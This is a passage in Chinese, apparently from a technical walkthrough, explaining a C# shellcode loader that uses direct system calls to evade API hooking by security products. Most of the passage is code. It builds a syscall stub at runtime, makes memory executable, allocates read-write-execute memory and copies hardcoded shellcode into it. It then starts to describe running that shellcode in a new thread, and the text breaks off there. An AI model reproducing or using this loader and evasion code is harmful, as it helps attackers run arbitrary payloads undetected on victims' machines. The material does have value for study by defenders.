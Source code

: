#### 动态执行系统调用

通过拼接字节数组构造出汇编代码，该代码中包含了动态获取的 Syscall ID。然后，使用 `VirtualProtectEx` 修改内存属性为可执行，最后通过将字节数组转换为函数指针并执行，达到绕过 API hooking 的目的

```plain
uint SyscallID = Auto_NativeCode.GetSyscallID("NtAllocateVirtualMemory");
byte[] syscall1 = SYSbyte1;
byte[] syscallid = { (byte)SyscallID };
byte[] syscall2 = SYSbyte2;
byte[] sysfinal = syscall1.Concat(syscallid).Concat(syscall2).ToArray();

unsafe
{
    fixed (byte* ptr = sysfinal)
    {
        IntPtr memoryAddress = (IntPtr)ptr;
        if (!VirtualProtectEx(Process.GetCurrentProcess().Handle, memoryAddress, (UIntPtr)sysfinal.Length, PAGE_EXECUTE_READWRITE, out uint oldprotect))
        {
            throw new Win32Exception();
        }

        DelegatesStruct.NtAllocateVirtualMemory assembledFunction = (DelegatesStruct.NtAllocateVirtualMemory)Marshal.GetDelegateForFunctionPointer(memoryAddress, typeof(DelegatesStruct.NtAllocateVirtualMemory));

        return (uint)assembledFunction(ProcessHandle, ref BaseAddress, ZeroBits, ref RegionSize, AllocationType, Protect);
    }
}
```

#### 分配内存并写入 shellcode

`Program.cs` 首先定义了一个名为 `buf1` 的字节数组用来存放硬编码的 shellcode 用于展示如何执行任意代码，接着通过调用 `Auto_NativeCode.NtAllocateVirtualMemory` 系统调用分配内存，然后使用 `Marshal.Copy` 将 shellcode 复制到分配的内存中：

```plain
uint ntAllocResult = Auto_NativeCode.NtAllocateVirtualMemory(
    GetCurrentProcess(), 
    ref pMemoryAllocation, 
    pZeroBits, 
    ref pAllocationSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
Marshal.Copy(buf1, 0, (IntPtr)(pMemoryAllocation), buf1.Length);
```

#### 创建线程执行 shellcode

通过调用 `Auto_NativeCode.NtCreateThreadEx` 方法创建一个新线程来执行 shellcode。这个方法构造了另一个用于调用 `NtCreateThreadEx` 的 shellcode，并通过该 shellcode 创建一个线程来执行之前复制到分配内存的 shellcode：
